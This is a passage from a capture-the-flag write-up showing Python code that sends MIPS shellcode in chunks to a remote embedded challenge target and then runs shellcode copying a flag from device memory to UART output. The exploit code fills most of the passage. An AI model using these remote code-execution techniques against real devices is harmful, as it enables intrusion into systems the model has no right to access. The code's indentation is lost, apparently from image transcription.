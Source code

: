 Here is our python implementation of said dispatcher:
```python
def send_shellcode(shellcode, addr):
chunks = group(4, shellcode)
for i,c in enumerate(chunks):
sc = ""
sc += shellcraft.mips.mov('$v1', u32(c))
sc += shellcraft.mips.mov('$v0', addr + i*4)
sc += "sw $v1, 0x00($v0)\n"
sc += shellcraft.mips.mov('$t0', 0xbfc04fd0) # Jump back to start
sc += "j $t0\n"
sc += "nop\n"
crafted = asm(sc)
packet = bytes([0x5a, 0xa5, 0x5a, 0x5c]) + bytes([0x00]) +
p32(0xfefd4+0xa0000000) + bytes([0x00]*2) + crafted + bytes([0x00]*(53-
len(crafted)))
checksum = generateChecksum(packet[3:])
p.send(bytes(packet) + bytes([checksum]))
time.sleep(0.2)
```
Now we can get to the actual shellcode. Our shellcode has to initialize the UART device, read
data from the FLAG device, write it to the UART device and flush the UART device to display the
data. This is what we came up with:
```python
def send_shellcode_memcpy(target_addr):
sc = ""
sc += "or $s0, $zero, $zero\n"
sc += "start:\n"
sc += shellcraft.mips.mov('$v0', 0xa3000020) # load UART address
sc += 'lbu $v1,0x0($v0)\n'
sc += "li $v0,0x1\n" # init write
sc += 'beq $v0, $v1, start\n'
sc += 'nop\n'
sc += shellcraft.mips.mov('$a0', 0xa3000024)
sc += shellcraft.mips.mov('$a1', 0xa2008000) # load FLAG address
sc += "add $a1, $a1, $s0\n"
sc += "addi $s0, $s0, 16\n"
sc += shellcraft.mips.mov('$a2', 16)
sc += shellcraft.mips.mov('$t0', 0xbfc04078) # memcpy
sc += 'jalr $t0\n' # call memcpy
sc += 'nop\n'
sc += shellcraft.mips.mov('$v0', 0xa3000020) # flush UART
sc += 'or $v1, $zero, $zero\n'
sc += 'sw $v1, 0x00($v0)\n'
sc += "target:"
sc += "nop\n" # Loop back to start to send more data
sc += "b start\n"
sc += "nop\n"
crafted = asm(sc)
send_shellcode(crafted, 0xfefd4+0xa0000000+0x200)
# a00fefd4 is our message buffer and we write some bytes after that
```
That's it. Running this on the remote server returns the flag :D
